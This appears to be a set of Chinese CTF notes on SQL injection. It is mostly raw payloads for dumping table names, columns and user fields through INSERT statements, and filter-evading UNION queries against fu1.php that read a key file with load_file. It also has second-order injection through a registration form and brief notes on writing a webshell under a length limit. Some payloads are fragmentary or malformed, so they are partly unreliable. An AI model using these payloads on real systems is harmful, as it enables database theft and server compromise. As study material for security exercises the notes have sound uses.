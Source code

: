 爆表
id:   1
标题：2
内容：3','4'),('1',(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='2web'),'3
name：4


爆列
id:1
标题：2',(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='users1'),'4'),('1','2
内容：3
name：4

爆字段
id:   1
标题：2
内容：3','4'),('1',(select/**/group_concat(XremarkX4354)/**/from/**/2web.users1),'3
name：4



2.

```
fu1.php?id=1')and/**/2=1%23

fu1.php?id=1')oorrder/**/by/**/1%23

/fu1.php?id=1')oorrder/**/by/**/5%23

fu1.php?id=1')ununionion/**/seselectlect/**/1,2,3,4%23

fu1.php?id=1.1')ununionion/**/seselectlect/**/1,load_file('/tmp/360/key'),3,4%23
```

2次注入

  insert 二次注入  insert into()

  php://        .php   phar

命令执行  关键字过滤 源代码 fuzzing  ||   无回显exec   有限字符执行  30    7  

1. 写马     echo     >  ls -t >    sh 
2. 缩短

登录框 有注册，找回密码

登录框，仅有登陆成功，显示用户名

```sql
register.php

email=b@qq.com&username=a&password=123


insert into user(email,username,password),(b@qq.com,'a',123)，('')

查询  以第一次注入为主

insert into user(email,username,password),(b@qq.com,'0' + 1 + '0',123)


select * from user where email=  and pass = 

select '0' + (ascii (substr((select database()) from 1 for 1))) + '0'  from user where ema

2,1

```